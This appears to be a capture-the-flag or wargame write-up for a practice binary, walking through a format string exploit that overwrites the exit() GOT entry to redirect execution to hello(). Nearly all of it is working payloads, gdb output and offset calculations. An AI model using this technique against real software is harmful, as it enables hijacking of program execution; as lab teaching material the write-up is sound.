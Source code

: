 ```sh
hello() = 0x80484b4
\xb4\x84\x04\x09
_exit() = 0x8049724
\x24\x97\04\x08
```

We start again by locating the input on the stack:

```sh
user@hole-in-bin:~/hole-in-bin/ex09$ python -c "print 'AAAA' + '%x.' * 3 + '%x'" | ./bin
AAAA200.b777ac20.b7796328.41414141
```

Our string is already the 4th value on the stack.

Now we try to write all 4 bytes of the `exit` got entry

```sh
user@hole-in-bin:~/hole-in-bin/ex09$ python -c "print '\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08' + '%x.'*3 + '%n%n%n%n'" > a

user@hole-in-bin:~/hole-in-bin/ex09$ gdb bin

(gdb) r < a
Starting program: /home/user/hole-in-bin/ex09/bin < a
$%&'200.b7fd2c20.b7fee328.

Program received signal SIGSEGV, Segmentation fault.
0x26262626 in ?? ()
```

With the information we have we can again calculate the 4 n's we need for the format string parameters using the same python script from the last exercise. Also add the \x01\x01\x01\x01 as padding.

```py
# we get the first 36 by adding dec 16 to hex 0x26 (value of the bytes when we filled the address)
calculate(0xb4, 0x36) # 126
calculate(0x84, 0xb4) # 208
calculate(0x04, 0x84) # 128
calculate(0x08, 0x04) # 260
```

Final:

```sh
python -c "print '\x01\x01\x01\x01\x24\x97\x04\x08\x01\x01\x01\x01\x25\x97\x04\x08\x01\x01\x01\x01\x26\x97\x04\x08\x01\x01\x01\x01\x27\x97\x04\x08' + '%x.'*3 + '%126u%n%208u%n%128u%n%260u%n'" | ./bin
```

```sh
user@hole-in-bin:~/hole-in-bin/ex09$ python -c "print '\x01\x01\x01\x01\x24\x97\x04\x08\x01\x01\x01\x01\x25\x97\x04\x08\x01\x01\x01\x01\x26\x97\x04\x08\x01\x01\x01\x01\x27\x97\x04\x08' + '%x.'*3 + '%126u%n%208u%n%128u%n%260u%n'" | ./bin
$%&'200.b771ac20.b7736328.                                                                                                                      16843009                                                                                                                                                                                                        16843009                                                                                                                        16843009                                                                                                                                                                                                                                                            16843009
code execution redirected! you win
```
